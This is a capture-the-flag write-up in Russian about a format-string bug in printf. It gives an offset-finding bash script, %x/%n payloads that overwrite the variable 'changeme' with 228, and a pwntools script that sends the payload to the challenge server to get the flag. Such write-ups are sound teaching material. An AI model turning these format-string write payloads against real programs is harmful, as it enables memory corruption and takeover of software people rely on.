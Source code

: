 # sick format writeup

Нам дан код на C и скомпилированный ELF-файл. Изучив код можно понять, что уязвимость заложена в функцию printf(), она связана с форматированием строки. Простыми словами, будем передавать ей аргументы, которых нет - таким образом программа будет вычитывать стэк.

###  Ищем пэйлоад

Будем передавать строку нашей программе таким образом `python -c "print 'AAAA' + '%x.'*OFFSET + '%x'" | ./sick_format` постоянно меняя OFFSET. Чтобы не делать это руками - напишем простой скрипт на bash:

```bash
offset_finder.sh

#!/bin/bash

for ((test=0; test<=30; test++)); do
    output=$(python -c "print 'AAAA' + '%x.'*$test + '%x'" | ./sick_format | grep "41414141")
    if [ -n "$output" ]; then
        echo "Найдена строка '41414141' для теста $test"
	echo "$output"
    fi
done
```

Теперь узнаем адрес нашей переменной `changeme`, которую нужно поменять для получения флага, а именно сделать ее равной 228.

В консоли отправляем следующий пэйлоад, в котором уже указан адрес нужной переменной:

`python -c "print '\x08\x04\xa0\x4c'[::-1] + '%x.'*6 + '%n'" | ./sick_format`

Рядом со строкой `No way...` появилось число, этло значение changeme. 

Теперь считаем, сколько нужно добавить до 228 и модифицируем пэйлоад:

`python -c "print '\x08\x04\xa0\x4c'[::-1] + '%x.'*5 + '%189d' + '%n'" | ./sick_format`

Отлично, все работает, теперь сделаем то же самое на сервере, где запущен настоящий файл.

Пишем скрипт:

```python
from pwn import *

conn = remote('IP', PORT)

payload = '\x08\x04\xa0\x4c'[::-1] + '%x.'*5 + '%189d' + '%n'

conn.sendline(payload)
print(conn.recv()) 
print(conn.recv())
```

Запускаем и получаем флаг **kxctf{f0rm4t1ng_str1ng_1s_c00l_d0nt_u_4gr33_w1th_m3_bruh?}**


